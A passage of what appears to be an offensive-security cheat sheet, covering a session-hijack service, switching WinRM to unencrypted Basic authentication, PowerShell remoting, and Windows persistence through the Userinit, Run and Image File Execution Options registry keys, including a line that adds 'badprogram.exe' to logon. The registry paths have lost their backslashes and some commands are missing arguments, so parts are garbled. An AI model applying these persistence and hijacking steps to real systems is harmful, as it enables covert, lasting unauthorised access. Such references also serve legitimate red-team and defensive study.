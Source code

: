     # Start service
    net start sesshijack
    or
    sc start sesshijack

Linux to Windows Remoting

    winrm set winrm/config/Service/Auth @{Basic="true"}
    winrm set winrm/config/Service @{AllowUnencrypted="true"}

    $cred = Get-Credential
    Enter-PSSession -ComputerName 'winserver1' -Credential $cred -Authentication Basic

PowerShell Remoting over SSH

    Enter-PSSession -Hostname -Username james -SSHTransport

## Windows Persistence Methods

### Registry Keys

#### Modify registry keys

    #Add a key/value
    reg add \ /v """ /t /d

    #Delete a key/value
    reg delete \ /v ""

#### Userinit Key

This key specifies what program should be launched right after a user logs into Windows. The default program for this key is C:windowssystem32userinit.exe. Userinit.exe is a program that restores your profile, fonts, colors, etc for your user name. It is possible to add further programs that will launch from this key by separating the programs with a comma.

    HKEY_LOCAL_MACHINESoftwareMicrosoftWindows NTCurrentVersionWinlogonUserinit
    HKLMSoftwareMicrosoftWindows NTCurrentVersionWinlogonUserinit = (REG_SZ) C:windowssystem32userinit.exe,c:windowsbadprogram.exe

#### Run Key

    #System Wide
    HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindowsCurrentVersionRun
    HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindowsCurrentVersionRunOnce

    #Current Logged-On User Only
    HKEY_CURRENT_USERSOFTWAREMicrosoftWindowsCurrentVersionRun
    HKEY_CURRENT_USERSOFTWAREMicrosoftWindowsCurrentVersionRunOnce

#### List Image File Execution Options (Debugger file executed when the target file is run)

    HKLMSoftwareMSWindowsNTCurrentVersionImage File Execution Optionsnotepad.exedebugger(REG_SZ = cmd.exe)
